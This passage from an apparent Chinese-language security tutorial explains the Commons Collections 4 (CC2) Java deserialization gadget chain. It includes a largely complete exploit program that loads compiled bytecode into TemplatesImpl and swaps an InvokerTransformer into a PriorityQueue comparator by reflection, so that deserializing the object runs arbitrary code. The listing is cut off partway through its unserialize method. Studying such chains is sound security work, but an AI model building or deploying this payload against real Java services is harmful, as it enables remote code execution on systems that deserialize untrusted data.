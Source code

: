 所以说 size 最少是 2 才会触发排序和比较。使用 PriorityQueue.add()

还要注意得问题是在序列化之前使用 PriorityQueue.add() 会提前进入到 siftDownUsingComparator 调用到 comparator.compare，使得代码抛出异常，所以我们要在进行 add 之前将我们传入得 comparator 为无效值，add 完之后再修改回来。

### 完整 exp

```bash
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;
import org.apache.commons.collections4.comparators.TransformingComparator;

public class CommonscollectionsTest {
    public static void main(String[] args) throws Exception{

        TemplatesImpl Templates = new TemplatesImpl();
        Class tc = Templates.getClass();
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(Templates,"lituer");


        Field bytecodeField = tc.getDeclaredField("_bytecodes");
        bytecodeField.setAccessible(true);

        byte[] code = Files.readAllBytes(Paths.get("D:\\IdeaProjects1\\untitled2\\target\\classes\\org\\example\\calc.class"));
        byte[][] codes = {code};
        bytecodeField.set(Templates,codes);


        InvokerTransformer<Object,Object> invokerTransformer = new InvokerTransformer<>("newTransformer",new Class[]{},new Object[]{});
        TransformingComparator transformingComparator = new TransformingComparator(new ConstantTransformer<>(1));

        PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);

        priorityQueue.add(1);
        priorityQueue.add(2);

        Class c = transformingComparator.getClass();
        Field transformedField = c.getDeclaredField("transformer");
        transformedField.setAccessible(true);
        transformedField.set(transformingComparator,invokerTransformer);


        serialize(priorityQueue);
        unserialize("ser.bin");
    }

    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
```